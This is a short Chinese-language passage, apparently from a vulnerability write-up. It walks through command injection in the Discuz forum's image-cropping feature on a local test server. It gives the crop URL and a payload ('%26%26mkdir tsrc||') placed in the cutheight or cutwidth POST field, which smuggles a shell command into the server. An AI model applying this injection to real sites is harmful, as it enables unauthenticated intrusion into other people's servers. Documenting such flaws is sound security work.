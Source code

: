 ![enter image description here](img/img7_u82_png.jpg)

如果这个功能开启，我们甚至可以在没有账号的情况下，前台完成命令执行的触发。

首先访问裁切图片的这个功能，因为这个漏洞的触发必须要有一张有效图片，所以我们可以在论坛帖子中随便找到一张图片来引用。例如：我的发帖图片是:

```
http://192.168.188.143/discuz20140604/data/attachment/forum/201406/13/155944d557e0dtcdpouoad.jpg 
```

那么我要访问的裁切功能的 URL 为：

```
http://192.168.188.143/discuz20140604/misc.php?mod=imgcropper&img=forum/201406/13/155944d557e0dtcdpouoad.jpg 
```

然后修改 POST 数据包中 cutheight 或者 cutwidth 中的内容为“%26%26mkdir tsrc||”提交，就可以在 discuz 根目录下创建一个 tsrc 的目录。

修改输入包如下图所示：
